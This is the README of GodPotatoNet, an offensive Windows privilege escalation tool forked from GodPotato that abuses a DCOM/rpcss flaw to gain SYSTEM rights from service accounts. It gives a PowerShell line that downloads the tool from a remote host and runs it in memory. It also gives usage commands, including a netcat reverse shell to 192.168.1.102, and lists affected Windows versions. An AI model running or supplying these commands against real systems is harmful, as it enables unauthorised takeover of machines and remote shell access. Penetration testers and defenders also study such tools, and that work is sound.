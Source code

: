 # GodPotatoNet

> [!IMPORTANT]  
> This project is now DEPRECRATED, and has been succeeded by my [SigmaPotato](https://github.com/tylerdotrar/SigmaPotato) project.
---

This fork of [GodPotato](https://github.com/BeichenDream/GodPotato) aims to expand upon the usability of BeichenDream's hard work.

![HelpMessage](https://cdn.discordapp.com/attachments/855920119292362802/1110988288031993917/image.png)

The predominant functionality I wanted to add was support for C# reflection, while refining some general usage.

```powershell
# C# Reflection in PowerShell
[System.Reflection.Assembly]::Load([System.Net.WebClient]::new().DownloadData("http(s)://<ip_addr>/GodPotatoNet.exe"))
[GodPotatoNet.Program]::Main(@('-cmd','<command>'))
```

**Current Status:**
- Initial support for C# reflection. (``v1.0.0``)
- Refined help message. (``v1.0.0``)
- Refine argument input so calling from memory is more intuitive. (``WIP``)
- Fix (assumptive) thread handling issue present ONLY when calling from memory. (``WIP``)

**Known Bugs:**
- When called from memory, privilege escalation is only successful on the first execution -- every following attempt fails to impersonate the security context token.  Currently the only fix is to load ``GodPotatoNet`` into a new terminal session.

**Affected Windows Versions:**
- Windows Server 2012 - Windows Server 2022
- Windows 8 - Windows 11


### Original GodPotato
---

Based on the history of Potato privilege escalation for 6 years, from the beginning of RottenPotato to the end of JuicyPotatoNG, I discovered a new technology by researching DCOM, which enables privilege escalation in Windows 2012 - Windows 2022, now as long as you have "ImpersonatePrivilege" permission. Then you are "NT AUTHORITY\SYSTEM", usually WEB services and database services have "ImpersonatePrivilege" permissions.


Potato privilege escalation is usually used when we obtain WEB/database privileges. We can elevate a service user with low privileges to "NT AUTHORITY\SYSTEM" privileges.
However, the historical Potato has no way to run on the latest Windows system. When I was researching DCOM, I found a new method that can perform privilege escalation. There are some defects in rpcss when dealing with oxid, and rpcss is a service that must be opened by the system. , so it can run on almost any Windows OS, I named it GodPotato

**Examples:**

Use the program's built-in Clsid for privilege escalation and execute a simple command

```
GodPotato -cmd "cmd /c whoami"
```

![](images/1.png)

Customize Clsid and execute commands

```
GodPotato -cmd "cmd /c whoami"
```

![](images/2.png)

Execute reverse shell commands

```
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
### Thanks

- zcgonvh
- skay

### License

[Apache License 2.0](/LICENSE)
